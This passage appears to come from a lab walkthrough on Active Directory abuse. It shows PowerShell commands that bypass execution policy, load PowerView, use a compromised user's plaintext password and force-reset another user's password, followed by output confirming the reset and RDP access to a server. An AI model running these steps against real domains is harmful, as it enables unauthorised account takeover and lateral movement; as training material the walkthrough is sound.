 #### Import PowerView Module

```powershell-session
Set-ExecutionPolicy Bypass -Force
Import-Module C:\tools\PowerView.ps1
```

Create a PSCredential object with Grace's credentials:

```powershell-session
$SecPassword = ConvertTo-SecureString 'Password11' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\grace', $SecPassword)
```

Then create a secure string object for the password we want to set to Rosy:

```powershell-session
$UserPassword = ConvertTo-SecureString 'NewRossyCreds!' -AsPlainText -Force
```

Use the function `Set-DomainUserPassword` with the option `-Identity`, which corresponds to the account we want to change its password (rosy), add the option `-AccountPassword` with the variable that has the new password, use the option `-Credential` to execute this command using Grace's credentials. Finally, set the option `-Verbose` to see if the change was successful.

```powershell-session
Set-DomainUserPassword -Identity rosy -AccountPassword $UserPassword -Credential $Cred -Verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Set-DomainUserPassword] Attempting to set the password for user 'rosy'
VERBOSE: [Set-DomainUserPassword] Password for user 'rosy' successfully reset
```

We can now connect via RDP to `SRV01` using `Rosy` account.